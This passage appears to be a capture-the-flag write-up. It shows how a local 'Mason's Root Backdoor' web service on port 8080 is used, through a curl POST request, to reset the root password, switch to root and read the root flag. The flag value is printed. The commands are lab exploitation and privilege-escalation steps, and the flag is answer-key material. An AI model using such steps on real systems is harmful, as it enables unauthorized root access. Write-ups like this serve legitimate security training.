

I tried to `curl`, it wanted some POST parameters, so I gave it, and then it let me reset root password:
```bash
mason@ip-10-64-167-66:/$ curl http://localhost:8080/ -X POST -d 'password=northernlights&cmdtype=passwd'
<br>Password Changed To :northernlights<br>**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd

```

Okay, we can now su to root.
```bash
mason@ip-10-64-167-66:/$ su root # northernlights
Password: 
root@ip-10-64-167-66:/# id
uid=0(root) gid=0(root) groups=0(root)
```



and grab the root flag:
```bash
root@ip-10-64-167-66:/# cat /root/r00t.txt 
thm{ad23b9c63602960371b50c7a697265db}
```